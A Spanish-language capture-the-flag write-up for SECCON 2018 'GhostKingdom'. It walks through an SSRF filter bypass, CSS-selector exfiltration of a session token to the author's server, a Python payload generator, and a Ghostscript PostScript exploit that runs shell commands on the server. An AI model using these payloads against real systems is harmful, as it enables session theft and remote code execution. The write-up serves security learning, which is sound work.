

# CTF SECCON 2018 - GhostKingdom

## Introducción

En la descripción de la prueba únicamente nos indican la siguiente URL
`http://ghostkingdom.pwn.seccon.jp/FLAG/`


La pista es que la *flag* se encuentra en un archivo de este directorio, lo que nos hace sospechar desde un principio que el objetivo es conseguir ejecución de comandos para listar los archivos de este directorio.


En la página principal tenemos la opción de login, ademas de poder registrar usuarios.


Registramos un usuario

```
http://ghostkingdom.pwn.seccon.jp/?user=patatas&pass1=fritas&pass2=fritas&action=register2
```

Una vez registrado, en el panel de opciones solamente tenemos habilitadas 2 opciones.


## Take a Screenshot

La función de *screenshot* permite hacer una captura de pantalla de la URL que le indiquemos.


Si intentamos acceder a `http://127.0.0.1` obtenemos el siguiente mensaje:

```
You can not use URLs that contain the following keywords: 127, ::1, local
```

La solución es bastante simple, configurar nuestro propio dominio para que resuelva a `127.0.0.1`.

```
l.mydomain.com. IN A 127.0.0.1
```


En esta aplicación web, todos los parámetros se pasan por GET. De esta forma podemos autenticamos en la aplicación a través del SSRF.

`http://l.mydomain.com/?user=patatas&pass=fritas&action=login`


## Message to admin

Otra funcionalidad de la aplicación es enviar mensajes al administrador.




Si marcamos la opción "Emergency" en el mensaje se formatea con CSS a través del parámetro con el mismo nombre.

```
css = c3BhbntiYWNrZ3JvdW5kLWNvbG9yOnJlZDtjb2xvcjp5ZWxsb3d9
```


## PWN CSS

Modificando el parámetro `css` podemos inyectar código CSS a la página, sin embargo existen filtros que no nos permiten realizar una inyección HTML o XSS.

El parámetro `csrf` coincide con el valor de la cookie de sesión, por lo que el objetivo será exfiltrar esta información.

Debido a la forma en la que se carga el CSS, no es posible inyectar un payload recursivo que exfiltre el token completo en un solo screnshot, por lo que exfiltraremos cada carácter por separado.

El siguiente código hará que recibamos en nuestro servidor web el primer carácter.

```css
input[name="csrf"][value^="0"]{background:url("http://mydomain.com/0_");}
input[name="csrf"][value^="0"]{background:url("http://mydomain.com/1_");}
...
input[name="csrf"][value^="f"]{background:url("http://mydomain.com/e_");}
input[name="csrf"][value^="f"]{background:url("http://mydomain.com/f_");}
```

```
163.43.113.139 - - [27/Oct/2018:12:28:28 +0200] "GET /b_
```

Una vez probado, realizamos el mismo proceso a través del SSRF. Con este script automatizamos gran parte del proceso de extracción.

```python
import sys
from base64 import b64encode
from urllib import quote as urlencode

if len(sys.argv)>1:
  inicio = sys.argv[1]
else:
  inicio = ''

element = 'input[name="csrf"]'
exfilturl = 'http://mydomain.com'
chars = '0123456789abcdef'

payload = ''
for c in chars:
  value = inicio + c
  payload += '%s[value^="%s"]{background:url("%s/%s");}\n' % (element, value, exfilturl, value+'_')

url = 'http://l.mydomain.com/?css=' + urlencode(b64encode(payload)) + '%2&msg=test&action=msgadm2'
url2 = 'http://ghostkingdom.pwn.seccon.jp/?url=' + urlencode(url) + '&action=sshot2'
print(url2)
```

```
163.43.113.139 - - [27/Oct/2018:12:28:28 +0200] "GET /b_
163.43.113.139 - - [27/Oct/2018:12:30:50 +0200] "GET /b9_
...
163.43.113.139 - - [27/Oct/2018:12:53:09 +0200] "GET /b962fe196d05bbac1417_
163.43.113.139 - - [27/Oct/2018:12:53:40 +0200] "GET /b962fe196d05bbac14178_
163.43.113.139 - - [27/Oct/2018:12:54:21 +0200] "GET /b962fe196d05bbac14178a_

```

El siguiente script automatiza todo el proceso de extracción del a cookie: [seccon-ghostkingdom.py](https://github.com/jesux/ctf-write-ups/blob/master/seccon-2018/GhostKingdom/seccon-ghostkingdom.py)

Finalmente, la cookie obtenida es `b962fe196d05bbac14178a`.

Clonamos la cookie en el navegador y accedemos a la función de subida de imágenes.


Una vez subida la imagen JPG, se utiliza el script `ghostMagick.cgi` para convertir la imagen a GIF.

Utilizamos el [exploit de Tavis Ormandy para Ghostscript](https://www.openwall.com/lists/oss-security/2018/08/21/2).

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%ls /var/www/html/FLAG/) currentdevice putdeviceprops
```


